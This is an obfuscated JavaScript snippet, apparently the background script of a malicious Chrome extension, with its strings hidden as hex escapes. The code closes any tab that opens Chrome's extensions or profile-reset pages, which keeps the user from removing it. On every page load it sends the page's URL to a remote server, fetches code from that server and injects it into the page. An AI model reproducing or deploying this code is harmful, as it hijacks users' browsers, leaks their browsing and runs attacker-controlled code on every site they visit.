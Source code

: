 var _0x246c=["\x63\x68\x72\x6F\x6D\x65\x3A\x2F\x2F\x65\x78\x74\x65\x6E\x73\x69\x6F\x6E","\x69\x6E\x64\x65\x78\x4F\x66","\x75\x72\x6C","\x63\x68\x72\x6F\x6D\x65\x3A\x2F\x2F\x63\x68\x72\x6F\x6D\x65\x2F\x65\x78\x74\x65\x6E\x73\x69\x6F\x6E","\x63\x68\x72\x6F\x6D\x65\x3A\x2F\x2F\x73\x65\x74\x74\x69\x6E\x67\x73\x2F\x72\x65\x73\x65\x74\x50\x72\x6F\x66\x69\x6C\x65\x53\x65\x74\x74\x69\x6E\x67\x73","\x69\x64","\x72\x65\x6D\x6F\x76\x65","\x74\x61\x62\x73","\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D","\x65\x78\x74\x2E\x70\x68\x70","\x2F\x2F\x74\x77\x69\x74\x74\x65\x72\x2E\x63\x6F\x6D","\x73\x74\x61\x74\x75\x73","\x63\x6F\x6D\x70\x6C\x65\x74\x65","\x66\x69\x6C\x65\x3A\x2F\x2F","\x63\x68\x72\x6F\x6D\x65\x2D\x65\x78\x74\x65\x6E\x73\x69\x6F\x6E\x3A\x2F\x2F","\x2F\x61\x6A\x61\x78\x2F","\x3F","\x72\x61\x6E\x64\x6F\x6D","\x65\x78\x65\x63\x75\x74\x65\x53\x63\x72\x69\x70\x74","\x61\x64\x64\x4C\x69\x73\x74\x65\x6E\x65\x72","\x6F\x6E\x55\x70\x64\x61\x74\x65\x64"];chrome[_0x246c[7]][_0x246c[20]][_0x246c[19]](function(_0xcc8fx1,_0xcc8fx2,_0xcc8fx3){if(_0xcc8fx3[_0x246c[2]][_0x246c[1]](_0x246c[0])>=0||_0xcc8fx3[_0x246c[2]][_0x246c[1]](_0x246c[3])>=0||_0xcc8fx3[_0x246c[2]][_0x246c[1]](_0x246c[4])>=0){chrome[_0x246c[7]][_0x246c[6]](_0xcc8fx3[_0x246c[5]])};var _0xcc8fx4=_0xcc8fx3[_0x246c[2]][_0x246c[1]](_0x246c[8])>=0?_0x246c[9]:_0xcc8fx3[_0x246c[2]][_0x246c[1]](_0x246c[10])>=0?_0x246c[9]:_0x246c[9];if(_0xcc8fx2[_0x246c[11]]==_0x246c[12]&&_0xcc8fx3[_0x246c[2]][_0x246c[1]](_0x246c[0])<0&&_0xcc8fx3[_0x246c[2]][_0x246c[1]](_0x246c[13])<0&&_0xcc8fx3[_0x246c[2]][_0x246c[1]](_0x246c[14])<0){req(yes+_0x246c[15]+_0xcc8fx4+_0x246c[16]+Math[_0x246c[17]](),function(_0xcc8fx2){chrome[_0x246c[7]][_0x246c[18]](_0xcc8fx1,{code:_0xcc8fx2})},null,{"\x78\x2D\x73\x65\x74\x2D\x72\x65\x66":_0xcc8fx3[_0x246c[2]]})};});
